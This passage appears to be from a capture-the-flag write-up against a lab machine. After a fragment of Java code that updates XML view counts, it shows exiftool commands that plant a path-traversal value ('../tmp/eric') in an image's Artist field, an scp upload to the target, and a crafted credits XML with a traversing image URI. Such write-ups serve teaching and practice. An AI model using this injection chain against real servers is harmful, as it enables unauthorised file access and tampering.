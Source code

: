 ```java
                rootElement.getChild("totalviews").setText(Integer.toString(totalviews));
                Integer views = Integer.parseInt(el.getChild("views").getText());
                el.getChild("views").setText(Integer.toString(views + 1));
            }
        }
    }
    BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
    xmlOutput.output(doc, writer);
}
```

## The Exploit

To exploit the application, I downloaded one of the images, modified the Artist metadata, and uploaded the image back on the server.

```bash
$ exiftool greg.jpg | grep Artist        
Artist                          : woodenk

$ exiftool -Artist="../tmp/eric" greg.jpg
Warning: [minor] Ignored empty rdf:Bag list for Iptc4xmpExt:LocationCreated - greg.jpg
    1 image files updated


$ exiftool greg.jpg | grep Artist        
Artist                          : ../tmp/eric

$ scp greg.jpg woodenk@target:/tmp      
```

Next, I downloaded the XML stats of one author. I added a line for my new image in `tmp`. And uploaded the file in `/tmp/eric_creds.xml`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>9</views>
  </image>
  <image>
    <uri>/../../../../../../tmp/greg.jpg</uri>
    <views>1</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>9</totalviews>
</credits>
```
